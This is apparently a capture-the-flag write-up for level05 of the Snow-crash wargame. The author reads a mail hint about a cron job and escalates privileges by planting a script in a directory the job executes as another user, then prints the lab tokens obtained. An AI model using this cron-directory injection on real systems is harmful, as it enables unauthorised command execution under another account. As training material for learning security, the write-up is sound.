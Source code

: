 ---
title:  "Snow-crash Level05"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories: 
- 42

#### 1. The password of `Level05` is the token that got from `Level04`.

```
ne2searoevaevoem4ov4ar8ap

```
#### 2. So, try login to `Level05` with the password we got from `Level04` and try to put the command 'ls -la'. Let's see inside in level05.

```
level05@localhost's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$
```
```bash

level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

It says that there is a new mail. 

#### 4. So, I found the small hint from /var/mail/level05

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -la
total 4
drwxrwsr-x  1 root mail  60 Mar  5  2016 .
drwxr-xr-x  1 root root 160 Mar 12  2016 ..
-rw-r--r--+ 1 root mail  58 Feb 13 16:49 level05
```

there is a file `level05`.

```bash
level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's take a look inside one by one.

```bash
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do 

	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
That means that the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside `/opt/openarenaserver` because this directory will be deleted in every 2 minutes, so we should put our file safely in `/tmp` file.

We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in `/tmp`. So, the overall effect of this command is to create a file named `getflag05` in the `/opt/openarenaserver/` directory.

```bash
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05'
getflag > /tmp/flag05
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
level05@SnowCrash:/usr/sbin$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc

level05@SnowCrash:/var/mail$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### 5.  We got a token for next `level06`

```
viuaaale9huek52boumoomioc
```
